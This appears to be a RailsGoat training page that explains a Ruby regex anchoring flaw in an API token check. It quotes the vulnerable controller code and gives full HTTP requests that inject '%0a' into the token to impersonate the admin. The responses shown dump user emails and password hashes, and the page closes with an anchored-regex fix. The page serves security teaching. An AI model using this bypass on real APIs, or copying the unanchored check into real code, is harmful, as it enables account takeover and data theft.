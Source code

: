 # Description

Regular expressions are a common way to extract the data you want from the data you do not want. It is common for Ruby developers to forget that in Ruby regexp anchors are \A and \z. This allows strict enforcement so that potentially dangerous characters such as the newline character aren't able to bypass security-based regular expression checks.

# Bug

Within the file app/controllers/api/v1/users_controller.rb:

```ruby
before_filter :valid_api_token
before_filter :extrapolate_user
```

The above two lines specify that we will run these validations prior to allowing a user to interact with the API endpoints.

```ruby
def valid_api_token
  authenticate_or_request_with_http_token do |token, options|
    # TODO :add some functionality to check if the HTTP Header is valid
    identify_user(token)
  end
end

def identify_user(token="")
   # We've had issues with URL encoding, etc. causing issues so just to be safe
   # we will go ahead and unescape the user's token
   unescape_token(token)
   @clean_token =~ /(.*?)-(.*)/
   id = $1
   hash = $2
   (id && hash) ? true : false
   check_hash(id, hash) ? true : false
end

def check_hash(id, hash)
 digest = OpenSSL::Digest::SHA1.hexdigest("#{ACCESS_TOKEN_SALT}:#{id}")
 hash == digest
end

# We had some issues with the token and url encoding...
# this is an attempt to normalize the data.
def unescape_token(token="")
  @clean_token = CGI::unescape(token)
end
```

This first validation, valid_api_token, extracts the user's access token. Within the token there is a user ID and a hash. The application extracts both values, hashes the user ID and the application's secret salt together. If the digest hash matches with the user provided hash, the entire token is valid. 

Meaning, if the hash (check_hash) doesn't match the hash provided by the user, the token is invalid and therefore unauthorized. Alternatively, the hash provided is valid but the user ID is invalid. 

The next validation, built after this check, extrapolates the user from that hash. In theory, because we have already validated both the user ID and hash are valid, we can just extract the user ID from what has been provided and determine user access.

```ruby
# Added a method to make it easy to figure out who the user is.
def extrapolate_user
  @user = User.find_by_id(@clean_token.split("-").first)
end
```

Unfortunately, we've made a mistake. The regular expression can be bypassed by entering a newline character (url encoded: %0a).We meant or expected for a user to enter a token such as:

    Authorization: Token token=1-01de24d75cffaa66db205278d1cf900bf087a737

However, the user actually enters:

    Authorization: Token token=2%0a1-01de24d75cffaa66db205278d1cf900bf087a737

This means that our token will pass the initial hash check. Additionally, when we perform the split by the hyphen ("-") character, and retrieve the first value from the newly created array (what should be a valid user ID), it will be "2\n1". When performing a `find_by_*` on an integer column (`to_i` is used), ActiveRecord will ignore everything from the newline character on and return the result of the first character. This means, we can become another user!

# Solution

### Broken Regular Expression ATTACK:

As discussed in the Bug Section (above), you can prepend the user ID of the person whose information you would like to retrieve followed by a newline character and your user's valid API token. The following is an example of what our request _should_ look like:

    GET /api/v1/users HTTP/1.1
    Host: railsgoat.dev
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.9; rv:26.0) Gecko/20100101 Firefox/26.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Authorization: Token token=2-050ddd40584978fe9e82840b8b95abb98e4786dc
    Content-Length: 4

This is the response:

    HTTP/1.1 200 OK
    Content-Type: application/json; charset=utf-8
    X-UA-Compatible: IE=Edge
    ETag: "6b4caf343a20865de174b2b530b945dd"
    Cache-Control: max-age=0, private, must-revalidate
    X-Request-Id: 0ef6e5e91730bfecb9711c0ddad5cc7b
    X-Runtime: 0.008342
    Connection: close
    
    {"admin":false,"created_at":"2014-01-23T16:17:10Z","email":"jack@metacorp.com",
    "first_name":"Jack","id":2,"last_name":"Mannino","password":"b46dd2888a0904972649cc880a93f4dd",
    "updated_at":"2014-01-23T16:17:10Z","user_id":2}

We want to access this endpoint as an admin (user ID of 1). We will change our request so that we can emulate being and admin by prepending 1%0a:

    GET /api/v1/users HTTP/1.1
    Host: railsgoat.dev
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.9; rv:26.0) Gecko/20100101 Firefox/26.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Authorization: Token token=1%0a2-050ddd40584978fe9e82840b8b95abb98e4786dc
    Content-Length: 4

The following is a response from the application (note - we get bonus points because as an admin we can retrieve **EVERYONE's** data):

    HTTP/1.1 200 OK
    Content-Type: application/json; charset=utf-8
    X-UA-Compatible: IE=Edge
    ETag: "916d3a7b17b24bd84806393e5ef4ccd9"
    Cache-Control: max-age=0, private, must-revalidate
    X-Request-Id: e56b6bc1c6d6b875249f6d27b9f9450c
    X-Runtime: 0.009111
    Connection: close
    
    [{"admin":true,"created_at":"2014-01-23T16:17:10Z","email":"admin@metacorp.com","first_name":
    "Admin","id":1,"last_name":"","password":"c93ccd78b2076528346216b3b2f701e6","updated_at":"2014-01-23T16:17:10Z","user_id":1},
    {"admin":false,"created_at":"2014-01-23T16:17:10Z","email":"jack@metacorp.com","first_name":"Jack","id":2,"last_name":"Mannino",
    "password":"b46dd2888a0904972649cc880a93f4dd","updated_at":"2014-01-23T16:17:10Z","user_id":2},{"admin":false,"created_at":
    "2014-01-23T16:17:10Z","email":"jim@metacorp.com","first_name":"Jim","id":3,"last_name":"Manico","password":
    "e1eb29f815193265b57d31bb4d9de140","updated_at":"2014-01-23T16:17:10Z","user_id":3},{"admin":false,
    "created_at":"2014-01-23T16:17:10Z","email":"mike@metacorp.com","first_name":"Mike","id":4,"last_name":"McCabe",
    "password":"df5d9020fa0f31adc4fd279020f587c8","updated_at":"2014-01-23T16:17:10Z","user_id":4},{"admin":false,"created_at":
    "2014-01-23T16:17:10Z","email":"ken@metacorp.com","first_name":"Ken","id":5,"last_name":"Johnson","password":
    "67a2faf94e8e71113617d4b72f851bf0","updated_at":"2014-01-23T16:17:10Z","user_id":5},{"admin":null,"created_at":
    "2014-03-09T13:58:28Z","email":"test1@test.com","first_name":"test","id":6,"last_name":"test","password":
    "05a671c66aefea124cc08b76ea6d30bb","updated_at":"2014-03-09T13:58:28Z","user_id":6},{"admin":null,"created_at":
    "2014-03-10T00:13:12Z","email":"test2@test.com","first_name":"test","id":7,"last_name":"test","password":
    "91482305bacc71bd52612cce07135b77","updated_at":"2014-03-10T00:13:12Z","user_id":7}]

### Broken Regular Expression SOLUTION:

There are many things wrong with how we are going about doing this but, for a simple fix, you can anchor the regular expression to reject/ignore newline characters.

```ruby
def identify_user(token="")
  # We've had issues with URL encoding, etc. causing issues so just to be safe
  # we will go ahead and unescape the user's token
  unescape_token(token)
  @clean_token =~ /\A(.*?)-(.*)\z/
  id = $1
  hash = $2
  (id && hash) ? true : false
  check_hash(id, hash) ? true : false
end
```

# Hint

An API token? Interested to see what calls I can make! What are the closing tags for Ruby again?